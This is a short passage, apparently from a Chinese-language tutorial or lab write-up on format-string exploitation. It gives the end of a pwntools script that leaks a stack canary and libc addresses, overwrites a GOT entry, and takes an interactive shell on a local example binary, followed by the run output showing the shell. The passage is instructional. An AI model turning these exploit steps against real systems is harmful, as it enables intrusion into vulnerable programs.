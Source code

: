```

fmt_str4wtite_got = fmt_str_write_payload_get(got_addr_index)
conn.send(fmt_str4wtite_got)
leak_data = conn.recvuntil(b'!\n')
end_site = leak_data.find(target_info['fixed_output_2'])
got_save_addr = conversion.bytes2int(leak_data[end_site - 6:end_site])
print('[++] receive {0}@libc address = {1} by heap'.format(target_info['got_name'], hex(got_save_addr)))
conn.interactive()

```  
  
  
  
运行exploit后，我们可以成功获取Shell！  
  
  
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[**] canary index = 17
[**] printf@got address = 0x404020
[+] Starting local process './fmtstr_example': pid 107614
[**] strings: b'808cd4c2bd46d700'
[**] hex: 0x808cd4c2bd46d700
[**] bytes: b'\xb0\xc5\xe1\xf7\xff\x7f'
[**] hex: 0x7ffff7e1c5b0
[++] receive canary value = 0x808cd4c2bd46d700
[++] receive printf@libc address = 0x7ffff7e1c5b0
[**] strings: b'7fffffffdf70'
[**] hex: 0x7fffffffdf70
[**] strings: b'7fffffffe098'
[**] hex: 0x7fffffffe098
[**] strings: b'7fffffffe320'
[**] hex: 0x7fffffffe320
[++] receive &argv = 0x7fffffffdf70, argv = 0x7fffffffe098, argv[0] = 0x7fffffffe320
[**] low = 0x4020, high = 0x40
[**] gift address = 0x40158a
[**] want to change got address to 0x40_0x158a
[**] bytes: b'\xb0\xc5\xe1\xf7\xff\x7f'
[**] hex: 0x7ffff7e1c5b0
[++] receive printf@libc address = 0x7ffff7e1c5b0 by heap
[*] Switching to interactive mode
$ id
uid=1000(astaroth) gid=1000(astaroth) groups=1000(astaroth),...
$

```  
```
```  
```
```  
  
